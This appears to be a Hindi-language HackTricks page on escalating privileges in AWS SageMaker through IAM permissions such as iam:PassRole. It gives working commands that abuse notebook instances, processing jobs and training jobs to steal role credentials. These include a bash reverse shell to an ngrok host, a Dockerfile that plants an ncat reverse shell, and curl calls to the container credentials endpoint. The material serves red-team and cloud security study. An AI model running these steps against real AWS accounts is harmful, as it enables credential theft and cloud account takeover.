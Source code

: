 # AWS - Sagemaker विशेषाधिकार

## AWS - Sagemaker विशेषाधिकार

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM रोल के साथ एटैच करने के लिए नोटबुक बनाना शुरू करें:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
उत्तर में एक `NotebookInstanceArn` फ़ील्ड शामिल होगा, जिसमें नए नोटबुक इंस्टेंस का ARN होगा। हम फिर `create-presigned-notebook-instance-url` API का उपयोग कर सकते हैं ताकि हम नोटबुक इंस्टेंस तैयार होने पर उस तक पहुंचने के लिए उपयोग कर सकें:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate करें URL पर ब्राउज़र के साथ और ऊपर दाईं ओर में \`Open JupyterLab\` पर क्लिक करें, फिर "लॉन्चर" टैब पर स्क्रॉल करें और "अन्य" खंड के नीचे, "टर्मिनल" बटन पर क्लिक करें।

अब IAM रोल के मेटाडेटा क्रेडेंशियल तक पहुंचना संभव है।

**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा रोल को प्राइवेस्क करना।

### `sagemaker:CreatePresignedNotebookInstanceUrl`

अगर उस पर पहले से ही Jupyter **नोटबुक चल रहे हैं** और आप उन्हें `sagemaker:ListNotebookInstances` के साथ सूचीबद्ध कर सकते हैं (या उन्हें किसी अन्य तरीके से खोज सकते हैं)। आप **उनके लिए एक URL उत्पन्न कर सकते हैं, उन्हें एक्सेस कर सकते हैं, और पिछली तकनीक में सूचित क्रेडेंशियल चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**संभावित प्रभाव:** सेजमेकर सेवा भूमिका जुड़ी प्रिवेस्क।

### `sagemaker:CreateProcessingJob,iam:PassRole`

उस अटैकर के पास जो अनुमतियाँ हैं, वह **सेजमेकर को प्रोसेसिंग जॉब का निष्पादन** करने के साथ एक सेजमेकर भूमिका जुड़ी सकता है। हमलावता को इसका संकेत देने के लिए कंटेनर की परिभाषा देनी होगी जो **एक **AWS मैनेज्ड ECS खाते उदाहरण** में चलाया जाएगा, और **जो आईएएम भूमिका जुड़ी क्रेडेंशियल्स चुरा सकता है**।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका को उन्नत करना।

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर एक प्रशिक्षण नौकरी बना सकेगा, जिस पर एक **केंद्रित आरक्षित भूमिका** के साथ एक **अनिश्चित कंटेनर** चला सकेगा। इसलिए, हमलावर भूमिका के क्रेडेंशियल चुरा सकेगा।

{% hint style="warning" %}
यह परिदृश्य पिछले वाले से अधिक उत्पीड़न करने के लिए कठिन है क्योंकि आपको एक डॉकर छवि उत्पन्न करनी होगी जो हमलावर को सीधे रेव शैल या क्रेडेंशियल को हमलावर को भेजेगी (आप प्रशिक्षण नौकरी के विन्यास में एक प्रारंभिक कमांड नहीं दिखा सकते)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका को उन्नत करना।

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर को (संभावित रूप से) **हाइपरपैरामीटर प्रशिक्षण नौकरी** बनाने की क्षमता होगी, उस पर **किसी भी अर्बिट्रेरी कंटेनर को चलाना** जिसमें एक **भूमिका संलग्न** हो।\
_मैंने समय की कमी के कारण उत्पीड़न नहीं किया है, लेकिन पिछले उत्पीड़नों के समान दिखता है, उत्पीड़न विवरण के साथ पीआर भेजने के लिए स्वतंत्र महसूस करें।_

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में पीआर जमा करके।

</details>
